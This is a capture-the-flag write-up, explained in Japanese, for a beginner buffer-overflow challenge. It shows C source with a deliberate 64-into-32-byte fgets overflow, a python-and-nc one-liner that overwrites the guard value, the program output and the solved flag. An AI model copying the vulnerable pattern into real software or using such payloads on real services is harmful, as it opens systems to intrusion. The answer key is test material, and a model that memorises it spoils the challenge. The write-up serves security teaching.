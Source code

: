 # p0wn3d - Pwn

An introduction to pwn challenges. This is to protect the babies from last year!

nc p0wn3d.kctf-453514-codelab.kctf.cloud 1337

main.c 
```
#include <stdio.h>
#include <string.h>
#include <unistd.h>

struct __attribute__((__packed__)) data {
  char buf[32];
  int guard;
};

void ignore(void)
{
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stdin, NULL, _IONBF, 0);
}

void get_flag(void)
{
  char flag[1024] = { 0 };
  FILE *fp = fopen("flag.txt", "r");
  fgets(flag, 1023, fp);
  printf(flag);
}

int main(void) 
{
  struct data first_words;
  ignore(); /* ignore this function */

  printf("Hello little p0wn3r. Do you have any first words?\n");
  fgets(first_words.buf, 64, stdin);
  sleep(2);
        puts("Man that is so cute");
        sleep(2);
        puts("I remember last year people were screaming at the little p0wn3rs.. like AAAAAAAAAAAAAAAAAAAAAAAAAAAAA!");
        sleep(2);
        puts("Don't worry little one. I won't let them do that to you. I've set up a guard");

  if (first_words.guard == 0x42424242) {
    get_flag();
  }

  return 0;
}
```

## solve
バッファオーバーフローの脆弱性がある
- fgets で first_words.buf に 64 バイトまで入力を受け付けていますが、buf は 32 バイトしか確保されていません。これにより、guard の値が不正に変更され、get_flag() 関数が呼ばれる

-32バイト分guardを埋めて、0x42424242（リトルエンディアン）を満たせばいい

```
$ python3 -c "print('A'*32 + '\x42\x42\x42\x42')" | nc p0wn3d.kctf-453514-codelab.kctf.cloud 1337
== proof-of-work: disabled ==
Hello little p0wn3r. Do you have any first words?
Man that is so cute
I remember last year people were screaming at the little p0wn3rs.. like AAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
Don't worry little one. I won't let them do that to you. I've set up a guard
wctf{pwn_1s_l0v3_pwn_1s_l1f3}
```

## flag
`wctf{pwn_1s_l0v3_pwn_1s_l1f3}`